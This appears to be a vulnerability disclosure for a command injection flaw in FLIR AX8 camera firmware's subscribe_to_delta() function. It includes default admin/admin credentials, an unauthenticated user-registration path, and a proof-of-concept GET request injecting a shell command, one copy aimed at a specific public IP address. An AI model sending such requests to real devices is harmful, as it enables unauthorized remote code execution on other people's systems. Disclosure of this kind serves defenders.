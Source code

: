 # Command injection vulnerability in subscribe_to_delta() in FLIR AX8

### Description

Command injection vulnerability in /usr/www/application/models/subscriptions.php  in FLIR AX8 up to 1.46.16 allows attackers to run arbitrary commands via the function subscribe_to_delta()

### Note:

This vulnerability is a backend issue that requires obtaining cookies. It  can exploit the unauthorized access vulnerability for arbitrary user  registration found at /tools/test_login.php?action=register. After  registering a new user, cookies can be obtained to achieve RCE (Remote  Code Execution). 

Also.Under normal circumstances, it has a weak password vulnerability with  default account credentials being 'admin' for both user and password too.  You can also obtain a cookie through this method.

### POC

```
GET /home/subscribe/delta/;whoami>test.txt; HTTP/1.1
Host: XXXXXX
Cookie: PHPSESSID=XXXXXXX
```

For example

- this cookie must be changed

```
GET /home/subscribe/delta/;whoami>test.txt; HTTP/1.1
Host: 222.103.211.89:8004
Cookie: PHPSESSID=XXXXXXXX
```

